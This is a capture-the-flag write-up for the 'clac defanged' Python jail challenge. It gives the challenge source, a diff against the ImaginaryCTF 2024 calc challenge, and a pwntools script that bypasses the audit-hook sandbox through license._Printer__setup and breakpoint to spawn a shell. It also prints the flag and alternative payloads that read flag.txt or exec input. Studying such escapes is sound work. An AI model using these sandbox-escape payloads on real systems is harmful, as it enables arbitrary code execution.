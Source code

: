 # clac defanged

```
based off of calc for ictf 2024 by maple3142

i tried modifying it to make it modular but i think now the calculator is insecure...

this challenge is not as tricky as it looks!

nc challs1.pyjail.club 23612
```

Attachment:

```python
#!/usr/local/bin/python3
from sys import addaudithook
from os import _exit
from re import match


def safe_eval(exit, code):
    def hook(*a):
        exit(0)
    def disabled_exit(*a):
        pass

    def dummy():
        pass

    dummy.__code__ = compile(code, "<code>", "eval")
    print("Activating audit hook...")
    addaudithook(hook)
    val = dummy()
    # audit hooks do not allow me to do important stuff afterwards, so i am disabling this one after eval completion
    # surely this won't have unintended effects down the line, ... right?
    print("Disabling audit hook...")
    exit = disabled_exit
    return val


if __name__ == "__main__":
    expr = input("Math expression: ")

    if len(expr) <= 200 and match(r"[0-9+\-*/]+", expr):
        # extra constraints just to make sure people don't use signal this time ...
        if len(expr) <= 75 and ' ' not in expr and '_' not in expr:
            print(safe_eval(_exit, expr))
        else:
            print('Unacceptable')
    else:
        print("Do you know what is a calculator?")
```

Diff with [ImagbinaryCTF 2024 calc](../misc/pyjail/imaginaryctf-2024-calc.md):

```diff
--- main.py	2025-10-04 10:47:50.177404199 +0800
+++ calc.py	2025-10-04 10:51:11.871714435 +0800
@@ -1,4 +1,4 @@
-#!/usr/local/bin/python3
+#!/usr/bin/env python3
 from sys import addaudithook
 from os import _exit
 from re import match
@@ -7,31 +7,18 @@
 def safe_eval(exit, code):
     def hook(*a):
         exit(0)
-    def disabled_exit(*a):
-        pass
 
     def dummy():
         pass
 
     dummy.__code__ = compile(code, "<code>", "eval")
-    print("Activating audit hook...")
     addaudithook(hook)
-    val = dummy()
-    # audit hooks do not allow me to do important stuff afterwards, so i am disabling this one after eval completion
-    # surely this won't have unintended effects down the line, ... right?
-    print("Disabling audit hook...")
-    exit = disabled_exit
-    return val
+    return dummy()
 
 
 if __name__ == "__main__":
     expr = input("Math expression: ")
-
     if len(expr) <= 200 and match(r"[0-9+\-*/]+", expr):
-        # extra constraints just to make sure people don't use signal this time ...
-        if len(expr) <= 75 and ' ' not in expr and '_' not in expr:
-            print(safe_eval(_exit, expr))
-        else:
-            print('Unacceptable')
+        print(safe_eval(_exit, expr))
     else:
         print("Do you know what is a calculator?")
```

1. Extra constraints: length less than or equal to 75, no spaces, no underscores: use `\x5f` instead of `_` in string to bypass limitation, use `setattr(A,B,C)` instead of `A.B=C`
2. Disable audit hook after calling `dummy`: return a object whose `__str__` evaluates `breakpoint()`, using the `[f"{license}" for license._Printer__setup in [breakpoint]]` snippet from [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/)

Attack script:

```python
from pwn import *

context(log_level="debug")

#p = process(["python3", "main.py"])
p = remote("challs1.pyjail.club", 23612)
p.recvuntil(b"expression:")
p.sendline(
    ("1,setattr(license,'\\x5fPrinter\\x5f\\x5fsetup',breakpoint),license").encode()
)
p.sendline(b'__import__("os").system("sh")')
p.interactive()
```

Steps:

1. Set `license._Printer__setup` to `breakpoint`
2. Return `license`
3. `print(license)` calls `license._Printer__setup`
4. Enters PDB
5. Get shell

Flag: `jail{this_python_ain't_so_scary_anymore_when_defanged_73ef638f5110dc0660d01a}`.

An elegant and simple solution is provided by @mirelgigel at [mirelgigel/writeupjailctf](https://github.com/mirelgigel/writeupjailctf): `0,type('',(),{'\x5f\x5frepr\x5f\x5f':lambda s:open('flag.txt').read()})()`, which creates a type with `__repr__` defined. A similar one is provided by @flocto on Discord: `1,[u:=chr(95)*2,e:=help,setattr(type(e),u+'repr'+u,lambda*a:exec(input()))]`.
